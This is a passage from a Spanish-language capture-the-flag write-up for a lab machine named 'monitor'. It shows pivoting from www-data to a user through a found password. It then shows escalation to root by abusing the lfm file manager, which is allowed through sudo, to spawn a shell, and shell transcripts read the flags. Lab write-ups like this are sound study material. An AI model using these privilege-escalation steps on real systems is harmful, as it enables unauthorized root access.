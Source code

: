 y hay un archivo con **usuario:contraseña**
```bash
www-data@monitor:/var/www/site/.admin$ su kevin
Password: 
kevin@monitor:/var/www/site/.admin$ whoami
kevin
kevin@monitor:/var/www/site/.admin$ cd
kevin@monitor:~$ cat user.txt 
995**************************184
```
Pruebo a cambiar de usuario con esa contraseña y consigo hacer pivoting de **www-data** a **kevin**, puedo ver la primera flag.
```bash
kevin@monitor:~$ sudo -l
Matching Defaults entries for kevin on monitor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kevin may run the following commands on monitor:
    (root) NOPASSWD: /usr/bin/lfm

kevin@monitor:~$ sudo /usr/bin/lfm
```
El comando **sudo -l** revela que puedo utilizar el administrador de archivos **lfm** con privilegio **sudo** y 
una mala gestion de permisos puede llevar una escala de privilegios no deseada.

* [LFM GitHub Informacion](https://github.com/langner/lfm) -> Administrador de archivos para linux

Ejecuto el programa...
* Se ve el gestor de archivos, con los direcctorios etc...

![log-poisoning]({{'/assets/img/Monitor/lfm.png' | relative_url}})
* Al pulsar la tecla **h** entra al menu y bajando a la ultima opcion **key bindings**

![log-poisoning]({{'/assets/img/Monitor/lfm-help.png' | relative_url}})
* Entro en esta guia, donde puedo abusar del modo paginate y ejecutar una **/bin/bash** 

![log-poisoning]({{'/assets/img/Monitor/exploit.png' | relative_url}})
![log-poisoning]({{'/assets/img/Monitor/bin-bash.png' | relative_url}})

Obtengo una shell como root y ya he podido escalar privilegios y ver la ultima flag.
```bash
root@monitor:/home/kevin# whoami
root
root@monitor:/home/kevin# cat /root/root.txt
2b5**************************f3d
```

Espro que te pueda servir de ayuda. GRACIAS por venir.
